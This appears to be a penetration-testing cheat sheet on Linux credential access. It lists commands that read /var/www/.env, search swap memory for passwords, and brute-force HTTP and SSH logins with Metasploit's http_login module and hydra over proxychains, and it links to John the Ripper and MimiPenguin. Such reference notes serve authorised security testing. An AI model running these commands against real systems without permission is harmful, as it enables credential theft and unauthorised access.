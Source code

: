 # Checks
##### Linux env variable
##### cat /var/www/.env

# Linux Passwd / Shadow
### [Password Hashes](../../Services/Cryptography/Hashes/README.md#Shadow-File-Password-Hashes)

### John The Ripper
##### [Unshadow Linux Hashes Cracking](../../Tools/Credentials_Cryptography/JohnTheRipper/README.md#Unshadow-for-Linux-Hashes-Cracking)

##### [Crack Linux Hashes](../../Tools/Credentials_Cryptography/JohnTheRipper/README.md#Crack-Linux-Hashes)

### MimiPenguin
##### [Run as Shell Script](../../Tools/Credentials_Cryptography/MimiPenguin/README.md#Run-as-Shell-Script)

##### [Run as Python Script](../../Tools/Credentials_Cryptography/MimiPenguin/README.md#Run-as-Python-Script)

### From Swap Memory
##### Find Swap File
```bash
swapon -s

cat /proc/swaps
```
##### Look for Passwords
```bash
# Assuming found swap file as /dev/sda5
strings /dev/sda5 | grep "password="
strings /dev/sda5 | grep "&password="
```
##### [Using Swap Digger](../../Tools/Credentials/SwapDigger/README.md#Find-Passwords-in-Swap-File)

# Services
### HTTP Credentials
##### Metasploit http_login
```bash
msfconsole -q
use auxiliary/scanner/http/http_login
set RHOSTS [Target Host]
set AUTH_URI [Directory]
set USER_FILE [Username List]
set PASS_FILE [Password List]
set VERBOSE false
run
```

### SSH
##### Bruteforce SSH over Proxychains
```bash
proxychains hydra -l administrator -P [Password List] [Target Host] ssh
```


# References
[statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

[smtp-user-enum](https://pentestmonkey.net/tools/user-enumeration/smtp-user-enum)

[smtp_enum](https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum/)

[smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login/)

[owa_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/)

[Reverse brute-force attack](https://en.wikipedia.org/wiki/Brute-force_attack#Reverse_brute-force_attack)

[NT PW Recovery "booting the kernel"](https://community.infosecinstitute.com/discussion/97802/nt-pw-recovery-booting-the-kernel)

[Reset Windows 10 Local Password with Kali Linux Live USB](https://www.top-password.com/knowledge/reset-windows-10-password-with-kali-linux.html)